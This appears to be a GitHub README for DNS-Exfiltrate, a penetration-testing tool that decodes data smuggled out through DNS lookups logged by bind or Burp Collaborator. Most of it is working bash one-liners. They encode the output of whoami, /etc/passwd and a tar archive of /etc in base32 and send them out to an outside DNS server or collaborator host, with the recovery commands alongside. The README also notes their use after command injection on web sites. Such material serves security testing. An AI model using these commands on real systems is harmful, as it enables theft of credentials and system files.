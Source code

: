 # DNS-Exfiltrate

Parses bind query logs or private Burp Collaborator output to decode exfiltrated data. 

Burp Collaborator allows appending hostnames to the provided address. For example: assume this is your collaborator address: `q3uv485lz802ad6a7xz6c2izvq1hp6.oastify.com`

You may prepend a 'hostname' (maximum length of a DNS label is 63 bytes), assuming it uses characters safe in a DNS query (such as base32-encoded data, see below). This allows exfiltration (including blind exfiltration) of data via DNS.

Here is the base32-encoded output from `whoami` exfiltrated via Burp Collaborator:

Command:

`a=$(whoami|base32|tr -d =);nslookup $a.q3uv485lz802ad6a7xz6c2izvq1hp6.oastify.com`

Burp Collaborator response:

`O53XOLLEMF2GCCQ.q3uv485lz802ad6a7xz6c2izvq1hp6.oastify.com`

![Screen Shot 2023-01-10 at 2 59 05 PM](https://user-images.githubusercontent.com/14989334/211650128-5d6a8562-3d64-4ec8-b530-bc47ae5a0db0.png)


`dns-parse.py` parses native bind query logs, or private Burp Collaborator output, which may be logged via `tee`:

```
java -jar /root/collaborator/burpsuite_pro.jar --collaborator-server | tee /root/collaborator/collaborator.log
```

Assumes hostnames are encoded in base32 (`A-Z`, `2-7`), which is the most efficent native encoding utility (on most Linux/Unix systems) that is safe for DNS queries. The `=` character (used to pad base32-encoded data to an 8 byte boundary) is not DNS safe, but can be trimmed using `tr -d =` on Linux/Unix systems. `dns-parse.py` adds any missing `=` characters back.

Hex encoding is also safe for DNS queries (but is less efficient). I may add hex support in the future. `base64` does not work due to `/` and `+`.

Thanks to Xavier Mertens for this excellent Internet Storm Center post: https://isc.sans.edu/diary/DNS+Query+Length...+Because+Size+Does+Matter/22326

## Use cases (bash):

Note that you will receive more reliable results by specifying the name server via `dig @`...

### Exfiltrate a file:

```
cat /etc/passwd | base32 -w 63 | tr -d = | while read a; do dig @<DNS Server> $a.<DNS Server>; done;
```

To recover the file (on a bind DNS server):

```
./dns-parse.py <DNS Name> query.log bind | base32 -d
```

To recover the file (on a private Burp Collaborator server):

```
./dns-parse.py <DNS Name> collaborator.log collaborator | base32 -d
```

### Exfiltrate a compressed file:

```
cat /etc/passwd | gzip - | base32 -w 63 | tr -d = | while read a; do dig @<DNS Server> $a.<DNS Server>; done;
```

To recover/unzip the file (on a bind DNS server):

```
./dns-parse.py <DNS Name> query.log bind | base32 -d | zcat
```

To recover/unzip the file (on a private Burp Collaborator server):

```
./dns-parse.py <DNS Name> collaborator.log collaborator | base32 -d | zcat 
```

### Exfiltrate a compressed tar archive of a directory:

Note that exfiltrating /etc on an Ubuntu Linux system worked perfectly (but took a while). It took 35 minutes, requiring 45,382 DNS requests, resulting in a 1.8 megabyte tar.gz file. Needless to say: the files/directories contained in the archive are restricted by the permissions of the running user. For command injection on web sites (using an account such as apache or www-data), many files/directories will likely be missing.

```
tar czf - /etc | base32 -w 63 |tr -d = | while read a; do dig @<DNS Server> $a.<DNS Server>; done;
```

To recover the tar archive (on a bind DNS server):

```
./dns-parse.py <DNS Name> query.log bind | base32 -d > exfiltrated.tgz
```

To recover the tar file (on a bind DNS server):

```
./dns-parse.py <DNS Name> collaborator.log collaborator | base32 -d > exfiltrated.tgz
```
